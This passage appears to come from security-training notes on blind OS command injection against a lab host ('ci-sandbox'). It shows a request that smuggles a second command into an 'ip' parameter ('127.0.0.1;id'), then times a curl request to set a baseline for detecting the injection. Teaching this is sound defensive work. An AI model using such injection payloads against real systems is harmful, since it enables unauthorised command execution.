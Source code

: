 ```bash
http://ci-sandbox:80/php/blind.php?ip=127.0.0.1;id
```

Submitting our request in the browser returns the following page.

![[Pasted image 20241030181833.png]]

The web page content displays that the "Host is UP!". However, it would seem that there is no output from our _id_ command.
It is unclear if our command ran. Let's determine if this is a blind injection vector.
To set a benchmark, we will use time to measure how long our curl request takes against a server we know is down:

```bash
kali@kali:~$ time curl http://ci-sandbox:80/php/blind.php?ip=127.0.0.1
<html>
<head>
<link rel="stylesheet" href="../css/bootstrap.min.css">
<style type="text/css">
body{
  background-color: #121212;
}
.check{
  background-color: #1f1f1f;
  border-radius: 4px;
  padding-top: 34px;
  width: 600px;
  height: 150px;
  align-self: center;
  box-shadow: 5px 5px 5px #0f0f0f;
}
.online{
  color: #00ff4c;
}

.offline{
  color: #ff0000;
}

.noParam{
  color: #FFFFFF;
}

</style>
</head>
<body>


<center>
<div class="check" align="center">
        <pre>
        <h3 class='offline'>[ - ] Host is DOWN </h3>        </pre>
</div>
  <img src="logo.png"/>
</center>

</body>
</html>

real    0.11s
```

